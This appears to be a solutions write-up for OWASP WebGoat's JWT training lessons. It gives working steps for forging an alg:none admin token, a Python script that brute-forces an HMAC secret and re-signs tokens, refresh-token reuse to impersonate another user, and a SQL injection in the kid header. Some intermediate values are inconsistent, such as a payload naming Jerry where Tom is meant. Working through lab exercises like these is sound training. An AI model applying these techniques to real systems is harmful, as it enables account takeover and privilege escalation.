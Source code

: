 # task 3

Just pass token in webwolf and read the username: user

# task 5

```
Intersept request, send from any user ex. Tom( change users in right top corner)
Gain access token and decode its heder,payload in base64.
```

```
access_token:eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1ODYxNjAzNTUsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.dsugXZYLM8WnyzWAA-CFOXCAzfVn0DwzrlmeY6Bns-Uce9Ez3IMq4SSLbk1YgQWNeg7kchjL9wUIqo6nVg8Sfg
```

```
HEADER:{"alg":"HS512"}
```

```
PAYLOAD:{
  "iat": 1586160355,
  "admin": "false",
  "user": "Tom"
}
```

Change admin to true and alg to none, encode in base64,send in repeater

```
Header:
{
  "alg": "None"
}

Payload:
{
  "iat": 1586160355,
  "admin": "true",
  "user": "Tom"
}
```

```
encoded new header:eyJhbGciOiJOb25lIn0=
```

```
encoded new payload:eyJpYXQiOjE2NDg2NDcwMjYsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9
```

```
final token:eyAiYWxnIjogIk5vbmUiIH0.eyAgImlhdCI6IDE1ODYxNjAzNTUsICAiYWRtaW4iOiAidHJ1ZSIsICAidXNlciI6ICJUb20ifQ.
```

# Task 7

```
1.Throws an exception in line 12
```

```
2.Logs an error in line 9
```

# Task 8

```
answer: victory
```

Brute force jwtcracker or alogirthm ( have to import word dictionary example https://github.com/first20hours/google-10000-english)

```
import base64
import hashlib
import hmac

def jwt_tokens_5():
     token = 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.vPe-qQPOt78zK8wrbN1TjNJj3LeX9Qbch6oo23RUJgM'.split('.')

     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"tom@webgoat.com","username":"WebGoat","Email":"tom@webgoat.com","Role":["Manager","Project Administrator"]}'.encode()

     unsigned_token = (token[0] + '.' + token[1]).encode()

     # signature is base64 URL encoded and padding has been removed, so we must add it
     signature = (token[2] + '=' * (-len(token[2]) % 4)).encode()

     with open('google-10000-english-master/google-10000-english.txt', 'r') as fd:
         lines = [line.rstrip('\n').encode() for line in fd]

     def hmac_base64(key, message):
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))

     for line in lines:
         test = hmac_base64(line, unsigned_token)

         if test == signature:
             print('Key: {}'.format(line.decode()))
             new_token = (token[0] + '.' + base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()
             new_signature = hmac_base64(line, new_token)
             new_token += ('.' + new_signature.decode().rstrip('=')).encode()
             print('New token: {}'.format(new_token.decode()))
             return

jwt_tokens_5()
```

# Task 10

```
Network tab catch login response to get Jerry credentials
```

```
{
    "user": "Jerry",
    "password": "bm5nhSkxCXZkKRy4"
}
```

Also response tokens

```
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "CXtmpNToIqJdepIKGcgi"
}
```

Get Tom's access token based on JErry refresh token and old expired Tom's acces token from log,

```
endpoint: http://localhost:8080/WebGoat/JWT/refresh/newToken
```

Add John's refresh token in payload and get new tokens

```
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "zEnjGKfcHaJKbxQJsQXG"
}
```

Now. intercept for checkout response, after clicking checkout button, and resent request with Toms access token in authorization header.

# Task 11

Try to delete Toms account ( button), and catch delete response with token. Place token in jwt.io editor.

```
header:{
  "typ": "JWT",
  "kid": "webgoat_key",
  "alg": "HS256"
}
```

```
payload: {
  "iss": "WebGoat Token Builder",
  "iat": 1524210904,
  "exp": 1618905304,
  "aud": "webgoat.org",
  "sub": "jerry@webgoat.com",
  "username": "Jerry",
  "Email": "jerry@webgoat.com",
  "Role": [
    "Cat"
  ]
}
```

We can see there is new field in header kid, do sql injection on this field. Code in base64 value of string new_key. Path to source code of lesson is https://github.com/WebGoat/WebGoat/blob/develop/webgoat-lessons/jwt/src/main/java/org/owasp/webgoat/jwt/JWTFinalEndpoint.java.

```
bmV3X2tleQ==
```

Replace kid with

```"something_else' UNION SELECT 'bmV3X2tleQ==' FROM INFORMATION_SCHEMA.SYSTEM_USERS; --";

```

Change Jerry to Tom in payload of token, change expiration date to later, change signature to "new_key". New token generated is

```
eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTcxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJ0b21Ad2ViZ29hdC5jb20iLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.Snpx3XPTFbAkvve7tOUv2TihTNGu_ZRfNF6fci4VC6A
```
